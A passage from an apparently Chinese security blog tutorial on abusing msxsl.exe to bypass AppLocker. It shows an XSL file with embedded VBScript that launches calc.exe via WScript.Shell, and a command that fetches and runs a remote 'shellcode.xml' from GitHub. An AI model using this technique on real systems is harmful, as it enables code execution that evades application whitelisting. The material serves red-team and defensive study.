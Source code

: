 
### 2、优化script.xsl

执行VBScript代码：

**注：**

经测试，此xml脚本不支持CSharp，同该资料相违背，此问题有待解决

资料地址如下：

https://msdn.microsoft.com/en-us/library/533texsx(VS.71).aspx

对于VBScript语言，不支持return表示函数返回值，通过函数名=需要返回的值来表示函数返回值

完整内容如下：

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
      xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
      xmlns:msxsl="urn:schemas-microsoft-com:xslt"
      xmlns:user="urn:my-scripts">

<msxsl:script language="VBScript" implements-prefix="user">
function myFunction()
	set shell=createobject("wscript.shell")
	shell.run "calc.exe",0
	myFunction = 0
end function

</msxsl:script>
<xsl:template match="/">
<xsl:value-of select="user:myFunction()"/>
</xsl:template>
</xsl:stylesheet>
```

以上文件内容对应github地址：https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker/blob/master/VBScript.xml

**注：**

调用函数名要对应：

`<xsl:value-of select="user:myFunction()"/>`

### 3、远程执行

msxsl.exe也支持远程执行，参数如下：

`msxls.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-11/3-3.png)
